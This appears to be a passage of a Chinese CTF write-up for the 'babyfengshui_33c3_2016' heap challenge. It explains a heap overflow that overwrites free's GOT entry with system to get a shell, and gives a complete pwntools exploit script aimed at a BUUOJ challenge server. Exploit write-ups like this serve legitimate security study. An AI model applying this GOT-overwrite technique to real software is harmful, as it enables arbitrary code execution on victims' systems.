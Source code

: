 然后free掉第一块chunk，chunk0和chunk0_name就会触发UNlink进行合并，接着申请一块大小为0x100的chunk，然后分配器就会将将这块chunk分配给用户，然后在chunk2_name之后申请一块chunk作为新申请的chunk的name。这时候对这块chunk进行输入，范围可以覆盖掉之前申请的所有chunk，就造成了溢出。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t011b370c7e826aee92.png)

此时我们可以覆盖掉chunk1_name的chunk1指针内容为free函数的got表地址，然后对其进行输出，接收输出的地址，就可以借助LibcSearcher泄露libc，就可以得到system函数的地址，然后将free函数的got表覆写为system函数的plt表地址，就可以将free函数覆盖为system函数，然后对内容为`/bin/sh`的chunk进行free，就执行了`system("/bin/sh")`来getshell了。

exp:

```
# -*- coding: UTF-8 -*-
from pwn import *
from LibcSearcher  import *

# io = process("./babyfengshui_33c3_2016")
io = remote('node3.buuoj.cn', 28616)
elf=ELF('./babyfengshui_33c3_2016')
context.log_level='debug'

free_got = elf.got['free']

def add(size, length, text):
    io.sendlineafter("Action: ", '0')
    io.sendlineafter("description: ", str(size))
    io.sendlineafter("name: ", 'So4ms')
    io.sendlineafter("length: ", str(length))
    io.sendlineafter("text: ", text)

def delete(index):
    io.sendlineafter("Action: ", '1')
    io.sendlineafter("index: ", str(index))

def display(index):
    io.sendlineafter("Action: ", '2')
    io.sendlineafter("index: ", str(index))

def edit(index, length, text):
    io.sendlineafter("Action: ", '3')
    io.sendlineafter("index: ", str(index))
    io.sendlineafter("length: ", str(length))
    io.sendlineafter("text: ", text)

add(0x80, 0x80, 'aaaa')
add(0x80, 0x80, 'aaaa')
add(0x80, 0x80, '/bin/sh\x00')

delete(0)

add(0x100, 0x19c, 'a' * 0x198 + p32(free_got))

display(1)
io.recvuntil("description: ")
free_addr = u32(io.recv(4))

print(hex(free_addr))

libc = LibcSearcher('free', free_addr)
libc_base = free_addr - libc.dump('free')
sys_addr = libc_base + libc.dump('system')

edit(1, 4, p32(sys_addr))
delete(2)
```